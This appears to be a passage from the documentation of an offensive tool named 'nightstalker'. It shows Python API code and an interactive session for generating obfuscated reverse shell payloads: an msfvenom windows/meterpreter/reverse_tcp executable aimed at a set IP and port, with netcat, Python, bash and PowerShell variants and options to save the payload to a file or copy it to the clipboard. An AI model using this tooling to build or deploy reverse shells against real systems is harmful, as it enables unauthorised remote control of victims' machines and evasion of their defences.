 ### Python API

```python
from nightstalker.core.reverse_shell_deployer import ReverseShellDeployer

# Initialize deployer
deployer = ReverseShellDeployer()

# Deploy with options
options = {
    'payload_type': 'msfvenom',
    'target_ip': '192.168.1.100',
    'port': 4444,
    'obfuscation': True,
    'options': {
        'payload_name': 'windows/meterpreter/reverse_tcp',
        'format': 'exe'
    },
    'deploy_method': '1'  # Save to file
}

results = deployer.deploy(options)
```

## Interactive Deployment Process

When running `nightstalker reverse-shell deploy`, the tool will guide you through:

1. **Payload Type Selection**: Choose from available payload types
2. **Target Configuration**: Set target IP and port
3. **Obfuscation Settings**: Enable/disable obfuscation (enabled by default)
4. **Payload-Specific Options**: Configure options based on selected payload type
5. **Deployment Method**: Choose how to deploy the payload

### Example Interactive Session

```
============================================================
🌙 NIGHTSTALKER REVERSE SHELL DEPLOYER
============================================================

📋 Available Payload Types:
  nc: Netcat reverse shell
  msfvenom: Metasploit msfvenom payload
  python: Python reverse shell script
  bash: Bash reverse shell script
  powershell: PowerShell reverse shell script

🎯 Select payload type (default: msfvenom): msfvenom

🎯 Target IP address (default: 192.168.1.100): 192.168.1.100

🔌 Port (default: 4444): 4444

🔒 Enable obfuscation (default: yes): yes

📦 Metasploit Payload Options:
  Available payloads: windows/meterpreter/reverse_tcp, linux/x86/shell_reverse_tcp
  Payload name (default: windows/meterpreter/reverse_tcp): windows/meterpreter/reverse_tcp
  Output format (default: exe): exe

📤 Deployment Methods:
  1: Save to file
  2: Copy to clipboard
```